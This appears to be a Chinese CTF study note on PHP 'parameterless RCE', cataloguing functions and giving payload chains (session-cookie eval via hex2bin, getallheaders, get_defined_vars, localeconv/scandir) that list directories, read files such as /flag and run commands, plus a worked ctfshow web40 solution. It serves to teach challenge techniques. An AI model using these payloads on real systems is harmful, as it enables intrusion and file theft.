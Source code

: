 ```yaml
---
title: 无参RCE
description: 无参RCE笔记
tags:
  - CTF
  - WEB
categories:
  - 笔记
cover: 'https://tuchuang.voooe.cn/images/2024/05/05/_202405052101083.jpg'
abbrlink: 无参RCE[4]
date: 2024-05-14 01:13:00
---
```


## 常用函数
### 目录操作
```php
getchwd() - 函数返回当前工作目录。
chdir() - 函数改变当前的目录。
dirname() - 函数返回路径中的目录部分。
scandir() - 函数返回指定目录中的文件和目录的数组。
glob() - 同上
```
### 数组操作
```php
移动：
end()   - 将内部指针指向数组中最后一个元素，并输出。
next()  - 将内部指针指向数组中的下一个元素，并输出。
prev()  - 将内部指针指向数组中的上一个元素，并输出。
reset() - 将内部指针指向数组中的第一个元素，并输出。
each() - 返回当前元素的键名和键值，并将内部指针向前移动。

current() - 返回数组中的第一个单元
pos() - 同上
strrev() - 用于反转给定字符串
array_reverse() - 将数组内容反转
localeconv() - 返回一包含本地数字及货币格式信息的数组。（数组第一项是‘.’）
array_shift() - 删除数组中第一个元素，并返回被删除元素的值。
array_flip() - 交换数组中的键和值，成功时返回交换后的数组
array_rand() - 从数组名中随机取出一个或多个单元
```
### 读文件操作
```php
readfile() - 读取文件。
readgzfile() - 可用于读取非 gzip 格式的文件
show_source() - 显示文件(语法高亮)。
highlight_file() - 显示文件(语法高亮)。
file_get_contents() - 把整个文件读成一个字符串。
```
### 字符串操作
```php
hex2bin() - 将16进制转换为ASCII字符
```
### 打印操作
```php
print() - 直接打印(不能打印数组和对象)
print_r() - 直接打印(数组用结构表示)
var_export() - 按类型直接打印内容(整数直接打印，字符(串)带上''打印)
var_dump() - 打印类型长度和内容
debug_zval_dump() - 在var_dump()基础上多了点别的
```

## 利用session
### 读文件
```php
Cookie：PHPSESSID=要读的文件路径
readfile(session_id(session_start()));
#开启会话并读取SESSID的内容，readfile可替换为其他读文件函数
```
### 命令执行
```php
#注意PHPSESSIID中只能有A-Z;a-z;0-9，建议搭配字符串函数进行
#例如使用hex2bin() - 将16进制转换为字符串
Cookie：PHPSESSID=命令(十六进制编码)
eval(hex2bin(session_id(session_start())));
```

## 利用getallheaders()(apache环境)
> 返回所有http头部信息

```php
var_dump(getallheaders());数组打印所有头部信息
改变某个头的内容为文件路径再用随机函数读取(多试几次)
readfile(array_rand(array_flip(getallheaders())));
#命令执行同理
```
## 利用get_defined_vars()
> 数组形式返回所有当前已定义的变量（$_GET $_POST $_FILES $_COOKIE)

uri/?a=/flag
然后print_r(get_defined_vars());可以看到a=/flag的位置
```
Array ( [_GET] => Array ( [moran] => flag [a] => /flag ) [_POST] => Array ( [flag] => please_give_me_flaG [task] => print_r(get_defined_vars()); ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [str1] => print_r(get_defined_vars()); [str2] => please_give_me_flaG )
```
**这是一个大数组套着许多的小数组，例子中参数a在第一个数组里第二位
我们可用current或者reset来先从大数组里返回第一个小数组，然后使用next或者end来回显该小数组中第二个键的值**
```php
print_r(next(reset(get_defined_vars())));回显:/flag
readfile(next(reset(get_defined_vars()));读出/flag
#命令执行同理
```
## 别的姿势
#### localeconv()
```php
current(localeconv());可以构造'.'符号
print_r(scandir(current(localeconv()))); = ls
```
### getcwd()
```php
print_r(getcwd());打印当前目录路径，例如/var/www/html
print_r(dirname(getcwd()));打印指定路径的目录，例如/var/www
继续结合chdir() - 改变当前目录
print_r(scandir((dirname(getcwd()))));列出上一级目录文件名
```
### 其他payload
```php
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); 
//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));
//这个得爆破
```
## 读取根目录
```php
strrev(crypt(serialize(array())))所获得的字符串第一位有几率是/
print_r(scandir(strrev(crypt(serialize(array()))))) = ls /
```
## 例题：ctfshow web入门40
```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```
print_r(scandir(current(localeconv())));列出当前目录下的文件
```
Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php )
```
flag.php位于第三位，我们可以先reverse后用next带出上一个文件
print_r(next(array_reverse(scandir(current(localeconv())))));
```
flag.php
```
直接读flag
highlight_file(next(array_reverse(scandir(current(localeconv())))));
> 使用highlight_file,show_source函数前端回显，可直接看到flag
> 使用readfile,file_get_contents等函数前端不回显，需查看源码


























参考文章
[RCE篇之无参数rce](https://arsenetang.github.io/2021/09/26/RCE篇之无参数rce "RCE篇之无参数rce")